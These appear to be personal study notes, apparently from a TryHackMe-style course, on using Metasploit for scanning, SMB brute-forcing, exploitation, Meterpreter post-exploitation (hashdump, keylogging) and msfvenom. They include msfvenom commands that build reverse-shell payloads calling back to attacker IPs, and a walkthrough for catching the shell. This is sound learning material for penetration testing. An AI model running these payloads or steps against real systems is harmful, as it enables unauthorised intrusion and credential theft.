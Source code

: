 ### Port Scanning 
- first enter `msfconsole`
  
  ```bash
  search portscan
  ```
  
- list potential port scanning modules
  
  ```bash
   use #
   ```
  
- in this case, we are using `scanner/portscan/tcp`
  
  ```bash
  show options
  ```
  
    - CONCURRENCY: Number of targets to be scanned simultaneously.
    - PORTS: Port range to be scanned. Please note that 1-1000 here will not be the same as using Nmap with the default configuration. Nmap will scan the 1000 most used ports, while Metasploit will scan port numbers from 1 to 10000.
    - RHOSTS: Target or target network to be scanned.
    - THREADS: Number of threads that will be used simultaneously. More threads will result in faster scans.
- nmap works inside the msfconsole

  
___


### UDP service Identificaftion
- `scanner/discovery/udp_sweep`
- this module will allow you to quickly identify services running over the UDP (User Datagram Protocol). This module will not conduct an extensive scan of all possible UDP services but does provide a quick way to identify services such as DNS or NetBIOS.


  ```bash
  setg RHOSTS [target_ip]
  ```


  - set the target ip globally

  ```bash
    run
  ```
  
  - runs the scanner
 
    
___


### SMB Scans
- SMB (Server Message Block) is a network protocol used for sharing files, printers, and other resources between computers.
- `scanner/smb/smb_version` or `scanner/smb/smb_enumshares`
- find SMB server details and list shared resources
- `http_version` module will find what http version, must change RPORT to the one you want to scan 
- `smb_login` brute forces the login
  - must `show options` and set up the wordlist file and the username then run


___


### Metasploit Database
- in an actual penetration testiing engagement, there will be likely have several targets. Metasploit has a database function to simplify project management


 ```bash
  systemctl start postgresql
  ```
 ```bash
  msfdb init
  ```
- launch `msfconsole`
  
 ```bash
  db_status
  ```

  check database status

 ```bash
  workspace
  ```

  list avaiable workspaces
  `-a` add a workspace
  `-d` delete a workspace
  EX:

 ```bash
  workspace -a tryhackme
  ```

 ```bash
  workspace [name]
  ```

  to switch between workspacaes

  
 ```bash
  workspace -h
  ```


  list avaiable options    
- `db_nmap` runs nmap and import the results to the metaspolit database
- resulted information can be retrived from `hosts` and `services`. the `-h` flag will give more options


___


### Example using the database
- pick a vulnerability scanner

 ```bash
  hosts -R
  ```

  uses the data we collected from db_nmap to import the RHOSTS value
- `run` or `exploit`
  
  ```bash
  services -S [service name]
  ```
  
  `-S` parameter to search for services in the envirement
  
  - HTTP: Could potentially host a web application where you can find vulnerabilities like SQL injection or Remote Code Execution (RCE). 
  - FTP: Could allow anonymous login and provide access to interesting files. 
  -  SMB: Could be vulnerable to SMB exploits like MS17-010
  - SSH: Could have default or easy to guess credentials
  -  RDP: Could be vulnerable to Bluekeep or allow desktop access if weak credentials were used.


___


### Vulnerability Scanning
- Identifiying a 'low hanging fruit' aka easily indentifiable and exploitable vulnerabilities that could allow us to gain a foothold on a system.
- thus, getting good at scanning and finding out what the target system's services are running and use the search function to search for exploits etc...
- `info` on any modules to have a better understanding of its use and purpose


___


### Exploitation
- Background the Session:
After getting initial access to a system, you "background" the current session to make it inactive but still accessible for upgrades.
`ctrl+z`

- Upgrade to Meterpreter Shell:
The `sessions -u [session ID]` command upgrades the current session to a Meterpreter shell.
Meterpreter is a powerful post-exploitation tool included with Metasploit. It gives you advanced capabilities like file searching, data collection, and system control.

- Check for Sessions:
Use `sessions` to list all available sessions. Here, session ID 2 now runs the Meterpreter shell.

- Switch to the Upgraded Session:
The command `sessions -i 2` interacts with session ID 2.

- Search for File:
Use `search -f [file]` to look for the file on the compromised system. It finds and gives you the file path.

- Read the File Content:
Use cat with double quotes around the file path to display the content

- `windows/gather/hashdump`
- needs to set to a meterpreter session to work


___


### Msfvenom
- replaced Msfpayload and Msfencode, allows you to generate payloads
- allow you to access all payloads available in the Metasploit framework. In many different formats too (PHP, exe, dll, etc...)

```bash
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
```
1. `-p php/reverse_php`: Specifies the payload type. In this case, it's a PHP-based reverse shell.
  - `msfvenom -l payloads`: lists all available payloads
  - `msfvenom --list formats`: lists all avaiable output formats

2. `LHOST=10.0.2.19`: The attacker's IP address where the reverse shell will connect.

3. `LPORT=7777`: The port on the attacker's machine that the reverse shell will connect to.

4. `-f raw`: Specifies the output format. raw means the payload will be written in plain PHP code.

5. `> reverse_shell.php`: Redirects the generated payload into a file named reverse_shell.php.


___


### Example of a basic step for msfvenom (reverse shell exploit)
1. attacker creates a payload 
EX: 

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.115.52 LPORT=8888 -f elf > rshell.elf
```

2. the target must have that `rshell.elf` file on their machine (by upload or downloading from the target system etc...)
3. use `exploit/multi/handler` to receive incoming connection from the reverse shell file of the target machine
4. target excutes the `rshell.elf` file
5. we're in


___


### Meterpreter
- it runs on the target system but is not installed on it
- it runs in memory and not on its disk of the target system
- it will be seen as a process and not a file
- it encrypts with the server where metasploit runs, so if the target does not decrypt the encrypted traffic (ex: HTTPS) coming in and out, IPS and IDS solutions will not able to detect it
- `getpid` in meterpreter will get the process id of meterpreter
- will establish an encrypted TLS channel with the attack's system
- most antivirus software will detect it
- `help` for commands in meterpreter


___


### some common meterpreter commands that I don't recall right away but will probably need to use
- `Migrate`: can migrate to a different process (like word.exe, notepad.exe) and act like a keylogger, some versions will also offer `keyscan_start`, `keyscan_stop`, `keyscan_dump` right out of the box
- `hashdump` list content of the SAM database
- `search` locate files
- `shell` will launch a command-line shell on the target system
- `load` additional tools
- when using `cat "path to file"` make sure to include double quotes

[Back](../README.md)




